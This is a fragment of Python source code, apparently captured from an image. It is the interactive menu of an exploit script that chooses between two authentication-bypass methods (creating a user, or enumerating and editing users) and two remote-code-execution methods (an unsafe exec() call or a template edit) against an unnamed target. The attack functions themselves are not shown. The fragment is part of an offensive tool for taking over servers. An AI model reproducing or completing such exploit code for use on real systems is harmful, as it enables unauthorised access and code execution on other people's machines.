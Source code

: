         print("Note: preferred method for auth bypass is 1, because it is less 'invasive'")

        print("Note2: preferred method for RCE is 2, as it does not need you to know if, for example, netcat has been installed in the target machine")

        print('''Choose method for authentication bypass:

            1) User creation

            2) User enumeration + User edit ''')

        auth_bypass=str(input("Method>"))

        if auth_bypass == "1":

           createuser()

        elif auth_bypass == "2":

           user_enum_update()

        print('''Choose method for RCE:

            1) Unsafe call to exec()

            2) Template edit ''')

        rce_method=str(input("Method>"))

        if rce_method == "1":

           exploit()

        elif rce_method == "2":

           template()

    main()
